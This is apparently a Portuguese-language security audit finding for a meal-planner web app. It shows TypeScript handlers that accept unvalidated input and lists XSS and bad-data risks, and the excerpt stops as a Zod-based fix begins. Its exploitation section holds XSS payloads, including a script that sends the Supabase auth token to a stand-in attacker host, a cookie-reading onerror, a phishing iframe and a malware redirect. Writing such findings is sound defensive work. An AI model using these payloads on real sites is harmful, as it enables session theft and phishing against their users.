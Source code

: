 **Código Vulnerável**:
```typescript
// MealPlanner.tsx - Aceita QUALQUER string
const handleAddFood = (foodToAdd?: string) => {
  const trimmedFood = (foodToAdd || currentFood).trim();
  if (trimmedFood && !selectedFoods.find(f => f.toLowerCase() === trimmedFood.toLowerCase())) {
    setSelectedFoods([...selectedFoods, trimmedFood]);
  }
};

// ProfileModal.tsx - Aceita QUALQUER valor
const handleSaveProfile = async () => {
  const { error: updateError } = await profileService.updateProfile({
    full_name: fullName,  // Sem validação!
    phone: phone,         // Sem validação!
  });
};
```

**Risco**:
- **XSS (Cross-Site Scripting)**: Injetar código JavaScript malicioso
- **Dados inválidos**: Peso -50kg, altura 999cm, idade 500 anos
- **Quebra de lógica**: Calorias negativas, valores absurdos
- **SQL Injection potencial** (embora Supabase mitigue parcialmente)
- **Quebra de cálculos**: IMC, TMB incorretos

**Exploração - XSS**:
```javascript
// Exemplo 1: Nome de alimento malicioso
"<img src=x onerror='alert(document.cookie)'>"
"<script>fetch(\"https://atacante.com/steal?data=\" + localStorage.getItem(\"supabase.auth.token\"))</script>"

// Exemplo 2: Nome de usuário
"<iframe src='https://phishing.com' style='position:fixed;top:0;left:0;width:100%;height:100%;border:0'></iframe>"

// Exemplo 3: Notas de refeição
"Ótima refeição!<script>document.location='https://malware.com'</script>"
```

**Exploração - Dados Inválidos**:
```javascript
// Valores absurdos aceitos:
Peso: -50 kg
Altura: 999999 cm
Idade: -5 anos
Calorias: -1000 kcal
```

**Impacto**: TODOS os usuários + roubo de tokens de sessão

**Correção Completa**:

1. **Instalar Zod**:
```bash
npm install zod
```
